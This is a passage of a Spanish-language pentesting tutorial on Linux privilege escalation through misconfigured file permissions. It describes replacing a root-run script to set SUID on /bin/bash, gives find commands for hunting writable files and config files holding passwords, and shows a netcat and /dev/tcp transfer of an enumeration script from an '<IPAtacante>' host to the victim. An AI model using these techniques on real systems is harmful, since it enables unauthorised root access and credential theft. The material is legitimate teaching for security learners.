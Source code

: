 ![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 4.png)

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 5.png)

El atacante al identificar este script, se da cuenta que no tiene permisos de escritura sobre este.

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 6.png)

El problema es que este archivo se encuentra dentro del directorio del usuario pepe y aunque no pueda modificarlo, puede eliminarlo.:

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 7.png)

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 8.png)

Ahora el atacante puede crear otro “script.sh” y hacer que el usuario root ejecute un comando, por ejemplo, para añadir el permiso SUID al archivo “/bin/bash”.

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 9.png)

![Untitled](/assets/Privesc/Abusing-Incorrect-Permissions/Untitled 10.png)

## Formas de detectar archivos con permisos mal configurados

Usar find para encontrar archivos con diferentes permisos:

```bash
find / -writable 2>/dev/null
find / -readable 2>/dev/null
find / -executable 2>dev/null

# Se podría buscar por archivos de configuración ya que 
# estos podrían contener contraseñas
find / \*config\* 2>/dev/null
```

Usar herramientas automatizadas como LSE o LinPEAS:
- **Linux Smart Enumeration (LSE)**: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **LinPEAS**: [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Si la máquina víctima no tiene wget instalado, se puede pasar el script de la máquina local a la víctima

```bash
# Máquina local
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
nc -nlvp 4646 < lse.sh

----
# Máquina víctima
cat < /dev/tcp/<IPAtacante>/<puerto> > lse.sh
 
```
